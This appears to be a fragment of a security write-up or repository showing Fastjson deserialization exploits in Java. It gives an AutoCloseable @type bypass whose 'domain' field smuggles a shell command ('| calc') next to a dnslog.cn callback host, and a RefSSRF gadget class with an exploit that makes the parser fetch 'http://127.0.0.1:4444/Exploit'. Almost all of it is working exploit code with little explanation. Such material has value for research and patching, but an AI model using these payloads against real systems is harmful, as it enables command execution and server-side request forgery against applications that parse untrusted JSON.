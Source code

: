 exploit:

```
package org.heptagram.fastjson;

import com.alibaba.fastjson.JSONObject;

public class AutoCloseableMain {
    public static void main(String[] args) {
        String payload ="{\n" +
                "  \"@type\":\"java.lang.AutoCloseable\",\n" +
                "  \"@type\": \"org.heptagram.fastjson.ViaAutoCloseable\",\n" +
                "  \"domain\": \" wme8bg.dnslog.cn| calc\"\n" +
                "}";
        JSONObject.parseObject(payload);
    }
}
```

**$ref use extends**

```
package org.heptagram.fastjson;

import javax.activation.DataSource;
import javax.activation.URLDataSource;
import java.net.URL;

public class RefSSRF extends Exception {

    public RefSSRF() {
    }
    private DataSource dataSource;

    public DataSource getDataSource() {
        return dataSource;
    }
    public void setDataSource(URL url) {
        this.dataSource = new URLDataSource(url);
    }
}
```

exploit:

```
package org.heptagram.fastjson;

import com.alibaba.fastjson.JSON;

public class RefSSRFMain {
    public static void main(String[] args) {
        String a ="{\n" +
                "  \"@type\": \"java.lang.Exception\",\n" +
                "  \"@type\": \"org.heptagram.fastjson.RefSSRF\",\n" +
                "  \"dataSource\": {\n" +
                "    \"@type\": \"java.net.URL\",\n" +
                "    \"val\": \"http://127.0.0.1:4444/Exploit\"\n" +
                "  }\n" +
                "}";
        JSON.parseObject(a);
    }
}
```

